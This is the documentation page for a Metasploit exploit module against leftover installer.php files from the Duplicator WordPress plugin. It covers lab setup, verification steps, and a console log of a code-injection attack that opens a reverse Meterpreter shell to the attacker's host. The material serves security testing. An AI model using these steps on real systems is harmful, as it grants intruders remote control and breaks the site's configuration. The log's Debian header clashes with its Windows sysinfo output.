 ## Vulnerable Application

Duplicator by Snap Creek is a WordPress plugin that can be used to create a complete backup of a WordPress instance and restore it on a fresh server. The export method generates 2 files:
* An ZIP archive with the complete WordPress files and Duplicator specific files:
  * A copy of the `installer.php` script: `installer-backup.php`
  * A SQL script that will be used to restore the database content: `database.sql`
* An installer PHP script to restore the archive `installer.php`

When the `installer.php` completes its process, the following files remain in the directory and has to be manually deleted:
* The ZIP archive
* `database.sql` 
* `installer-backup.php`
* `installer-data.sql` 
* `installer-log.txt`
* `installer.php`

WARNING: exploiting the vulnerability will overwrite the wp-config.php file, breaking the WordPress instance.

Install a vulnerable version of [WordPress Duplicator (<= 1.2.40)](https://downloads.wordpress.org/plugin/duplicator.1.2.40.zip) and create a backup.
Put the `install.php` and archive files on a clean web server.

## Verification Steps

Confirm that functionality works:
1. Start `msfconsole`
2. `use exploit/multi/php/wp_duplicator_code_inject`
3. Set the `RHOST`.
4. Confirm the target is vulnerable: `check`
5. Confirm that the target is vulnerable: `The target is vulnerable.`
6. Set a payload: `set PAYLOAD php/meterpreter/reverse_tcp`
7. Set `LHOST` and `LPORT`
8. Run the exploit: `run`
9. Confirm you have now a meterpreter session

## Options

### TARGETURI

The path to the installer.php file to exploit By default, the path is `/installer.php`.


## Scenarios

### Debian 9 running WordPress 4.9.8 with Duplicator 1.2.40

```
msf > use exploit/multi/php/wp_duplicator_code_inject
msf exploit(multi/php/wp_duplicator_code_inject) > set rhosts 192.168.37.247
rhosts => 192.168.37.247
msf exploit(multi/php/wp_duplicator_code_inject) > set targeturi /wordpress/installer.php
targeturi => /wordpress/installer.php
msf exploit(multi/php/wp_duplicator_code_inject) > set lhost 192.168.37.1
lhost => 192.168.37.1
msf exploit(multi/php/wp_duplicator_code_inject) > run

[*] Started reverse TCP handler on 192.168.37.1:4444
[*] Checking if the wp-config.php file already exists...
[*] All good! Injecting PHP code in the wp-config.php file...
[*] Requesting wp-config.php to execute the payload...
[*] Sending stage (38247 bytes) to 192.168.37.247
[*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.247:1251) at 2018-12-11 11:46:16 -0600
[*] Attempting to recreate wp-config file...
[*] Found archive name 20181127_test_site_126e49aaa44976fa5226181127215223_archive.zip
[*] Successfully created the wp-config.php file!

meterpreter > sysinfo
Computer    : WIN-0FAJA14JLP4
OS          : Windows NT WIN-0FAJA14JLP4 6.1 build 7601 (Windows 7 Enterprise Edition Service Pack 1) i586
Meterpreter : php/windows
meterpreter >
```


